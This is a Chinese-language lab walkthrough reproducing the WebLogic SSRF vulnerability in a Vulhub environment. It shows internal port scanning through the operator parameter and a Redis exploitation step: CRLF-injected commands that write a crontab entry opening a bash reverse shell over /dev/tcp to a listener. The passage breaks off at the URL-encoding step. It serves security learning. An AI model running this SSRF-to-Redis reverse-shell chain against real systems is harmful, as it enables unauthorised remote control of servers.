 ## 3. Weblogic SSRF漏洞(Redis利用)

### 3.1 环境搭建

#### 3.1.1 Vulhub

这里用的是Vulhub中的环境来复现的,所以就简单说一下

简单来说Vulhub是一个漏洞复现的测试靶场它里面内置了许多的漏洞环境，并且提供了复现文档,如下图<br/>  

<br/> Vulhub下载地址<br/> 文档地址<br/> 怎么搭建和使用它也有帮助文档，百度上面也有很多相关的教程，这里就不多说了<br/> 这里要用的是它的weblogic SSRF漏洞的这个环境

#### 3.1.2 运行环境
1.  进到vulhub中的`/weblogic/ssrf/`目录下  1.  执行如下命令启动环境,`docker-compose up -d`,如果报错没有docker-compose这个命令的话，百度一下怎么安装  1.  执行`docker ps`命令查看环境是否已经运行了,这里是已经运行起来了  1.  环境搭建完毕，开干！！！  
### 3.2 漏洞测试

#### 3.2.1 内网扫描

这个漏洞点的位置在
1.  `http://your-ip:7001/uddiexplorer/SearchPublicRegistries.jsp` 
点击`search`抓包，可以看到operator的参数值是一个链接

那我们测试这里是否存在ssrf，把地址改成`http://127.0.0.1:7001`之后它的显示是这样的

然后我们随便改成其他端口,可以发现保存的内容是不一样的，那么我们可以由此来判断端口是否存在

把包发送到Intruder模块，进行端口枚举

这里就设置1~10000的范围

没有他探测到有其他端口开放

尝试对内网进行扫描,我这里的docker环境内网地址应该是172.18这个段的,所以我就跑这个段了,设置好范围

我这里用的是自定义迭代器的payload类型，第一个填172,分隔符为`.`

第二个填18,分隔符为`.`

第三个填0~255，分隔符为`.`

第四个填0~255,注意没有分隔符

开冲，可以看到如果地址不存在是返回No route to host

而这个存在的显示内容如下,那么对他进行端口扫描

检测到6379端口开放，这个的redis的默认端口,下面尝试是否可以进行利用

#### 3.2.2 通过redisGetshell

Weblogic的SSRF有一个比较大的特点，就是我们可以通过传入`%0a%0d`来注入换行符，而某些服务（如redis）是通过换行符来分隔每条命令，也就说我们可以通过该SSRF攻击内网中的redis服务器。

这里我们利用crontab计划任务反弹shell,先用nc开启监听`nc -lvp 9999`

然后编写redis名命令,命令中的IP地址和端口号记得改成自己的
1.  `aaa` 1.   1.  `set 1 "\n* * * * * bash -i &gt;&amp; /dev/tcp/192.168.147.129/9999 0&gt;&amp;1\n"` 1.  `config set dir /var/spool/cron` 1.  `config set dbfilename root` 1.  `save` 1.   1.  `aaa` 
然后进行url编码，注意换行用%0d%0a替换
